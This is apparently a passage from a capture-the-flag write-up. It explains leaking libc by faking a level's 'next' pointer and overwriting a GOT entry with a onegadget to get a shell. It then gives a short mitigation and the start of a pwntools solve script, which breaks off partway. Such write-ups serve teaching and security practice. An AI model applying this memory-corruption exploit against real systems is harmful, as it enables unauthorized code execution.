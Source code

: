 I chose the pointer to `__libc_start_main`. So by overwriting the `next` pointer with the pointer containing the pointer to `__libc_start_main`, we can traverse the different levels via the `explore` functionality until we are in the faked level and thus can leak the libc with the `test_level` functionality. Now we just need to overwrite an entry in the `GOT` with a working onegadget by applying the same trick as for the leak and pop a shell.

# 5. Mitigation<a id="mitigation"></a>
Check the bounds of used buffers and use variables saving these bounds instead of hardcoding magic numbers one by one.

# 6. Solve script<a id="solve script"></a>
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
set max-visualize-chunk-size 0x100
continue
"""

def create_level(io, idx):
    io.sendlineafter(b"Choice:", b"1")
    io.sendlineafter(b"Enter level index: ", idx)

def edit_level(io, data):
    io.sendlineafter(b"Choice:", b"2")
    io.sendlineafter(b"Enter level data: ", data)

def test_level(io):
    io.sendlineafter(b"Choice:", b"3")
    return get_new_data(io)

def explore(io, idx):
    io.sendlineafter(b"Choice:", b"4")
    io.sendlineafter(b"index:", idx)

def reset(io):
    io.sendlineafter(b"Choice:", b"5")

def exit(io):
    io.sendlineafter(b"Choice:", b"6")

def get_new_data(io):
    return io.recvuntil("6. Exit\n")

def base_leak(io):
    start = get_new_data(io)
    base_leak = get_string_between(start, b"A welcome gift: ", b"\n")
    base_offset = 0x1662
```